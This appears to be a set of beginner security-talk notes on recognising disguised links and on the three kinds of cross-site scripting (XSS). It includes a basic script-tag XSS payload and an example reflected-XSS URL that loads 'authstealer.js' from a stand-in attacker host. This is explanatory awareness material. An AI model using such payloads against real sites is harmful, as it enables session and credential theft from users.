     - **READ IT**
- I'm gonna go over a couple things people can do with links and how to identify links you should be suspicious of.
- If someone were to send you a malicious link the short answer is yes they'd be able to do malicious things to your browser.
- The longer answer is that most malicious links are phishing links that require you to input data yourself, so the first thing to look for is if the link address is what is displayed.
- Emails, word documents, websites, etc. All have the ability to make links look nicer, or just make multiple words a link so it's easier to click.
- But this can be used in an evil and dastardly way if the displayed text is in link form, but a different link than the address.
- For example let's make another html page.
```
<html>
    <a href="https://www.google.com">https://www.google.com</a>
</html>
```
- In this case we can see that the link matches the displayed text, but what if we changed it.

```
<html>
    <a href="https://www.bing.com">https://www.google.com</a>
</html>
```
- One way to identify this quickly is to hover the link and look at the bottom left of your browser, which should give you a preview of the link.
- You can also right click and copy link address pasting it into notepad to look at, or even use the developer tools to find the link in the html and inspect it that way.

- Another thing that can be done with a malicious link is CSRF (Cross Site Request Forgery), but I'm not going to go over that in this talk.
- What I am going to go over is XSS.

#### What is XSS?
- XSS stands for cross site scripting
- The basic concept is that hackers can execute code into a victims browser. Typically it's injecting javascript in a script tag like: `<script>alert()</script>` into a website.
- With code execution, almost anything can be done so it's a serious vulnerability.

- 3 types of XSS: Persistent, Reflected, and DOM

#### Persistent / Stored
- Forum comment, can post a `<script>` tag and the server will send it back to any users that retreive the resource it's stored in.

#### Reflected
- Input from user is sent 'reflected' back from the server
- Hacker sends malicious link with malicious js
- `http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”`
    - https://www.imperva.com/learn/application-security/reflected-xss-attacks/
- The response to the link is from the server, but it is not stored like before.

#### DOM
- This one is a little bit harder to understand, but relies on a page that adds html elements to the page.
- The malicious user will provide data that the webpage will improperly interpret as a script.
- This attack can be done without forwarding any request to a server.
- For example if there is a website that uses your name and parses the url for the query string `?name="Joe"`, then uses javascript to call `document.write("Joe");`
    - Change `Joe` to `<script>alert()</script>` and now we have DOM XSS
